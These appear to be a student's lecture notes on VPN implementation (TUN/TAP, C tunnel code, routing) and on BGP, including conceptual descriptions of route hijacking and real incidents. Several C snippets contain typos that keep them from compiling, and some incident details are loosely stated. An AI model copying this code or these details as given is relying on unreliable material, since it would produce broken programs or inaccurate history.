  - Public Key Infrastructure
- TSL/SSL protocol
- case studies on CAs
- DNSSEC

# Week 9 VPN

## 9.2 Virtual Private Network

### Why VPN?

- private network
- firewall
  - internal network is trusted
  - less protections inside

- employee wants to access internal network
  - internet is unstrustworthy

- how do we make our computer looks like it's insise the private network?

**Tunneling Techniques**
**Transparent**

## 9.3 How VPN Works

### Solutions

- Computer **A** is traveling
- Private Network
  - want to be transparent to computer **A**
- Dedicated **VPN Server**
  - **A** requests tunnel with **VPN server**
  - **A** puts data in the tunnel
    - encrypted
    - integrity
- **VPN Server** extracts payload and delivers to destination in private network

### IP Tunneling

#### IPSec Approach
- kernel

#### SSL/TLS Approach
- user space
- better than IPSec
  - don't have to change kernel
  - is other OS compatible with kernel changes?

## 9.4 VPN Implementation 1

### The TUN/TAP Interface

- **A** telnet to **C** (in the private network) over the internet

- A to C
  - packet is redirected to VPN client
    - via socket, just send data, not whole IP packets
    - virtual NIC
    - standard TCP UDP encryption tunnel
  - (typically packet goes to NIC and is then routed)

- how does the VPN client get the IP Packet?
  - TUN/TAP interface

### Create a TUN Interface (Virtual Network Interface)

#### Code

``` C
int tunfd;
struct ifreq ifr;
memset(&ifr, 0, sizeof(ifr));

ifr.ifr_flags = IFF_TUN | IFF_NO_IP;

tunfd = open("/dev/net/tun", O_RDWR);//virtual interface
ioctl(tunfd, TUNSETIFF, &ifr);
```

#### Compile and run the code

```bash
seed@ubuntu(10.0.2.18):~/vpn/TunDemo$ gcc -o tundemo tundemo.c
seed@ubuntu(10.0.2.18):~/vpn/TunDemo$ ./tundemo
TUN file descriptor: 3
```

#### Check the interface

```bash
seed@ubuntu(10.0.2.18):~/vpn/TunDemo$ ifconfig tun0 //new nic
```

#### Assign an IP address to the tun0 interface

```bash
seed@ubuntu(10.0.2.18):~/vpn$ sudo ifconfig tun0 10.0.4.99/24 up //asign IP
seed@ubuntu(10.0.2.18):~/vpn$ ifconfig tun0
```

#### check the route for 10.0.4.0/24 network (the route is automatically added)

```bash
seed@ubuntu(10.0.2.18):~/vpn/$  route
```

#### if the route is not there, use the following command to add it

```bash
sudo route add -net 10.0.4.0/24 tun0
```

### Read From and Write to the TUN Interface

#### Read from the tun interface
```bash
.../TunDemo# xxd <& 3 //read file descriptor 3
ping 10.0.4.32
```

#### write to the tun interface

```bash
#cat file >& 3
```

## 9.5 VPN Implementation 2

- telnet generates IP TCP/UDP Data
- routing to tun interface
- TUN Program (client)
  - encryption
  - MAC (message authentication control)
  - encapsulated into new packet
  - new  IP header
  - new transport layer header
- tunnel
  - UDP
  - TCP
  - whatever transport protocol you want
- TUN Program (servers)
  - decryption
  - verify MAC
- Write to tun interface
- original payload available
- routing
- payload no longer protected once inside the network

- what is the source IP?
  - of the tunnel packet
  - use TUN program IP

## 9.6 VPN Code Explanation 1

### VPN Implementation Code: The Overall Flow

- Start
- Create TUN Interface
- Establish the tunnel with the other end (socket interface)
- Monitor both TUN and socket interfaces
  - TUN
    - Get data from TUN send it to the tuneel
  - Socket
    - Get data from tunnel, write to TUN interface

### Establish the Tunnel

#### VPN Client

```C
int connectToUDPServer{
  int sockfd;
  char *hello="Hello";
  
  memset(&peerAddr, 0, sizeof(peerAddr));
  peerAddr.sin_family = AF_INET;
  peerAddr.sin_port = htons(PORT_NUMBER);
  peerAddr.sin_addr.s_addr = inet_addr(SERVER_IP);

  sockfd = socket(AF_INET, SOCK_DGRAM, 0);

  // Send a hello message to "connect" wtih the VPN server
  sendto(sockfd, hello, strlen(hello), 0, (struct sockaddr *) &peerAddr, sizeof(peerAddr));

  return sockfd;
}
```

#### VPN Server

```C
int initUDPServer(){
  int sockfd;
  struct sockaddr_in server;
  char buff[100];

  memset(&server, 0, sizeof(server));
  server.sin_family = AF_INET;
  server.sin_addr.s_addr = htonl(INADDR_ANY);
  server.sin_port = htons(PORT_NUMBER);

  sockfd = socket(AF_INET, SOCK_DGRAM, 0);
  bind(sockfd, (struct sockaddr*) &server, sizeof(server));

  //wait for the VPN client to "connect"
  bzero(buff,100);
  int peerAddrLen = sizeof(struct sockaddr_in);
  int len = recvfrom(sockaddr, buff, 100, 0, (struct sockaddr*) &peerAddr, &peerAddrLen);

  printf("Connected with the client: %s\n", buff);
  return sockfd;

}
```

## 9.7 VPN Code Explanation 2

#### Monitor the TUN and Socket Interfaces

```C
// enter the main loop

while(1){
  int ret;
  fd_set readFDSet;

  FD_ZERO(&readFDset);
  SD_SET(sockfd, &readFDSet);
  FD_SET(tunfd, &readFDSet);
  ret = select(FD_SETSIZE, &readFDSet, NULL, NULL, NULL); // block on select, create a SET of interfaces
  // this is a blocking process

  if(FD_ISSET(tunfd, &readFDSet))
    tunSelected(tunfd, sockfd);
  
  if(FD_ISSET(sockfd, &readFDSet))
    socketSelected(tunfd, sockfd);
}
```

- use block on interface!
  - instead of round robin,
  - don't want to waste resources

### Transfer Data Between TUN and Tunnel

#### From TUN to tunnel
```C
void tunSelected(int tunfd, int sockfd){
  int len;
  char buff[BUFF_SIZE];

  printf("got a packet from TUN\n");
  // here we actually need to encrypt the packet!
  // put it in the safebox!
  // in this example we're just forwarding the data
  bzero(buff, BUFF_SIZE);
  len = read(tunfd, buff, BUFF_SIZE);
  sendto(sockfd, buff, len, 0, (struct sockaddr *) &peerAddr, sizeof(peerAddr));
}
```

#### From tunnel to TUN

```C
void socketSelected (int tunfd, int sockfd){
  int len;
  char buff[BUFF_SIZE];

  printf("got a packet from the tunnel\n");
  // here we need to decrypt the data!
  // in this example we're just receiving the data
  bzero(buff, BUFF_SIZE);
  len = recvfrom(sockfd, buff, BUFF_SIZE, 0, NULL, NULL);
  write(tunfd, buff, len);
}
```

## 9.8 Set Up a VPN

### Network Setup

- Host U wants to talk to Host V
  - U
    - tun0 10.4.2.99
  - V
    - tun0 10.4.2.5
    - vpn server 192.168.60.5
    - host v     192.168.60.6
    - network    192.168.60.0/24
  - VPN
  - Set up routing

- $ sudo route add -net 10.4.2.0/24 gw 192.168.60.5 eth19
  - run on the private network routers
- $ sudo route add -net 10.4.2.0/24 tun0
  - run on the VPN server
  - run on Host U
- $ sudo route add -net 192.168.60.0/24 tun0
  - run on the vpn client (host u)

## 9.9 Find the ip address


- host 128.230.0.0/16

- what is Computer's real IP address (addres of wifi card)?
  - 10.1.56.64
- What is the IP address of the VPN server?
  - 128.230.153.11
- What is the IP address of my TUN interface?
  - 128.230.153.98

## 9.10 Bypassing Firewalls Using VPN


## 9.11 Summary

- concept of VPN
- how VPN works
  - ssl/tls vpn
  - tun/tap interface
  - routing setup
- VPN implementation (code explanation)
- bypassing firewalls using VPN

# Week 10: Border Gateway Protocol (BGP)
- routing protocol that glues the internet together

## 10.2 BGP and Attacks on BGP

```bash
$ traceroute
```

## 10.3 How the Internet is Connected

### How the internets is connected: high-level picture

- each network is an Autonomous System (AS)
  - AS#
- networks are connected by a cable
  - Exchange
  - Peering point
- software
  - BGP
    - Border Gateway Protocol 
    - tell connecting network what addresses are on your network
    - routing protocol

- SU AS# 11872
- cogent (national)
- nysernet (regional)
- ineternet2 (national)

## 10.4 How Backbones are Connected Physically

Physcially lay the cable

### Internet Exchange and Peering

### Manhattan Landing Exchange Point
- secured facility
- can cut physical cables

### Network Tiers

- Peering/exchange
  - price?

- Tier 1
  - large networks
  - international networks
  - sprint, AT&T
    - no transit
    - direct connection
- Tier 2
  - Purchase transit service from tier 1
- Tier 3
  - Purchase transit service from tier 2

## 10.5 Disputes Related to Peering and Connections

### Level 3 vs Cogent Dispute (2005)

## 10.6 How Networks are "Glued" Together

### How BGP Works

- SU network
  - AS 11872
- Cogent
  - AS 174

- SU and Cogent are connected physically
  - SU tells Cogent what network they own
    - 128.230.0.0
    - BGP Speaker

  - 128.230.0.0/16
    - go to 11872 (AS path)
  - 128.230.0.0/16
    - go to 174 through 11872
    - and so on

- many paths!
  - some are avoided
  - some are prefered


### BGP Update

### Find BGP-Related Information

```bash
$ whois -h whois.radb.net 128.230.32.13

route:      128.230.32.0/19
origin:     AS11872
descr:      Proxy registration for Syracuse University
admin-c:    William Owens
tech-c:     NYSERNet NOC
remarks:    This is a proxy registration by NYSERNet on behalf of one of our member campuses. For changes or removal, contact noc@nysernet.org
notify:     noc@nysernet.org
notify:     rmbunal@syr.edu
mnt-by:     MAINT-AS3754
changed:    owens@nysernet.org 20190807
source:     RADB

person:     NYSERNet NOC
address:    100 South Salina St
            Suite 300
            Syracuse, NY 13202
phone:      315-415-8508
e-mail:     noc@nysernet.org
nic-hdl:    ZN56-ARIN
notify:     noc@nysernet.org
mnt-by:     MAINT-AS3754
changed:    owens@nysernet.org 20190826  #20:36:07Z
source:     RADB
```


## 10.7 BGP Prefix Deaggregation and Applications

Rule: longest match!

- two regions
  - SU        
    - 128.230.0.0/16 AS# 11872
  - SU London
    - 128.230.5.0/24 AS# 11872

- Want to send ip packet to 128.230.5.6,
  - choose longest match, 128.230.5.0/24

## 10.8 IP Anycast

### IP Anycast F-Root Server

IP Address 192.5.5.241
ASN AS3557 (internet systems consortium)

Many different locations, 30+

- BGP select one to set the router
  - h

## 10.9 Attacks on BGP

### How to attack a network using BGP

SU anounces 128.230.0.0/16
- Cogent
- nysernet
- BGP speakers make tcp connection
  - TCP RST attack will break BGP connection
  - Denial of Service
- Attacker owns AS
  - Has a BGP speaker
  - anounce they are connected to SU network
    - damange, some traffic routed to attacker AS
  - have the longest IP deaggregation!
    - all traffic will go to attacker AS


## 10.10 Case Studies on Attacks

### Pakistan Hijacks YouTube

Wanted to block citizens from watching youtube.

YouTube
  - 208.65.152.0/22
Pakistan
  - 208.65.153.0/24

#### Response to Attack

- fake 208.65.153.0/24
- announce a more specific IP route!
  - 208.65.153.0/32

### Turkey Hijacks Global DNS Providers

- turkey wants to censor twitter.com
- Turk Telekom DNS
  - provide fake IP for twitter
- there are other DNS providers
  - GOVt hijacked 
    - 8.8.8.8
    - 208.67.222.222
    - 4.2.2.2
  - as9121 announce
    - 8.8.8.8/32
    - 208.67.222.222/32
    - 4.2.2.2/32
  - Supposed to announce it to the inside of turkey network
  - announced it to the whole world lol

### Syria Turned off its internet
- AS9121 turk telecom
- AS3491 PCCW global


## 10.11 Protecting BGP

### Protecting BPG

- Encryption
  - deaggregation is an issue
  - SGPB
    - secure BGP

## 10.12 Summary

- How the internet is connected
- Internet exchange and peering
- Network tiers and disputes
- BGP and how it works
- BGP prefix deaggregation and IP anycast
- Attacks on BGP and case studies
